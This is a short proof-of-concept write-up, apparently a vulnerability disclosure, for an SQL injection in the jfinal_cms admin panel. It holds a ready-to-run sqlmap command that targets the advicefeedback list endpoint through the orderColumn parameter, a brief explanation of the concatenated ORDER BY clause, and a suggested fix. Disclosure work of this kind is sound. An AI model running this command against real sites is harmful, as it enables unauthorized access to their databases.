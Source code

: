 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/advicefeedback/list  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=asc&form.orderColumn=telphone&form.orderAsc=asc&attr.username=&attr.qq=&attr.email=&attr.telphone=&totalRecords=6&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```



Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist